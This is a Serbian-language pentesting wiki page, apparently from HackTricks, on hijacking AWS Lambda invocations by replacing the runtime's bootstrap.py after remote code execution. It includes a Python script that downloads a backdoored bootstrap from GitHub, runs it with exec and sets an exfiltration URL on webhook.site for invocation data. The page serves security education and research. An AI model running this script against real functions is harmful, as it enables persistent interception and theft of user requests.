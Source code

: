 # AWS - Ukradi Lambda Zahteve

{{#include ../../../../banners/hacktricks-training.md}}

## Lambda Tok

<figure><img src="../../../../images/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** je proces van kontejnera koji **šalje** **invokacije** ka **init** procesu.
2. Init proces sluša na portu **9001** izlažući neke zanimljive krajnje tačke:
- **`/2018-06-01/runtime/invocation/next`** – dobiti sledeći događaj invokacije
- **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – vratiti odgovor handler-a za invokaciju
- **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – vratiti grešku u izvršenju
3. **bootstrap.py** ima petlju koja dobija invokacije iz init procesa i poziva korisnički kod da ih obradi (**`/next`**).
4. Na kraju, **bootstrap.py** šalje init-u **odgovor**

Napomena da bootstrap učitava korisnički kod kao modul, tako da se svako izvršavanje koda koje obavlja korisnički kod zapravo dešava u ovom procesu.

## Ukradanje Lambda Zahteva

Cilj ovog napada je da se korisnički kod izvrši kao zlonamerni **`bootstrap.py`** proces unutar **`bootstrap.py`** procesa koji obrađuje ranjivu zahtev. Na ovaj način, **zlonamerni bootstrap** proces će početi da **komunicira sa init procesom** kako bi obradio zahteve dok je **legit** bootstrap **zarobljen** u izvršavanju zlonamernog, tako da neće tražiti zahteve od init procesa.

Ovo je jednostavan zadatak za postizanje jer se kod korisnika izvršava od strane legit **`bootstrap.py`** procesa. Tako da napadač može:

- **Poslati lažni rezultat trenutne invokacije init procesu**, tako da init misli da bootstrap proces čeka na više invokacija.
- Zahtev mora biti poslat na **`/${invoke-id}/response`**
- Invoke-id se može dobiti iz steka legit **`bootstrap.py`** procesa koristeći [**inspect**](https://docs.python.org/3/library/inspect.html) python modul (kao [predloženo ovde](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) ili jednostavno ponovo zahtevati na **`/2018-06-01/runtime/invocation/next`** (kao [predloženo ovde](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
- Izvršiti zlonamerni **`boostrap.py`** koji će obraditi sledeće invokacije
- Za svrhe prikrivanja moguće je poslati parametre lambda invokacija na C2 kontrolisan od strane napadača i zatim obraditi zahteve kao i obično.
- Za ovaj napad, dovoljno je dobiti originalni kod **`bootstrap.py`** sa sistema ili [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), dodati zlonamerni kod i pokrenuti ga iz trenutne lambda invokacije.

### Koraci Napada

1. Pronaći **RCE** ranjivost.
2. Generisati **zlonamerni** **bootstrap** (npr. [https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Izvršiti** zlonamerni bootstrap.

Možete lako izvršiti ove radnje pokretanjem:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Za više informacija proverite [https://github.com/carlospolop/lambda_bootstrap_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Reference

- [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{{#include ../../../../banners/hacktricks-training.md}}
